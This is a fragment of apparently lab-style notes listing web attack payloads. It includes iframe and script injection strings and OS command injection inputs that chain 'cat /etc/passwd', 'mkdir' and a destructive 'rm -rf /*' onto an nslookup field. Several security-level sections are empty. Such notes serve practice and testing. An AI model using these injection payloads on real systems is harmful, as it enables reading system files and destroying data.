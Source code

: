 
### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  iFrame Injection 💀
execute javascript by appending at in the uri
```
1. " onload="alert('hacked')
```
show prompt alert
```
2. "></iframe><script>prompt("Hi, why you are hacking this!");</script>
```


### Security level: low

Payload: 
```
``` 
### Security level: medium

Payload: 
```
``` 
### Security level: high

Payload: 
```
``` 

## 💀  OS Command Injection 💀
url: /
append more than one commands . at executes nslookup command on the given DNS so we can append more command and take advantage of.
```
www.nsa.gov; cat /etc/passwd
```
```
www.nsa.gov & cat /etc/passwd
```
```
www.nsa.gov | cat /etc/passwd
```
```
www.nsa.gov | mkdir GameOver
```
⛔ execute this command at your own risk ⛔
```
www.nsa.gov && rm -rf /*
```

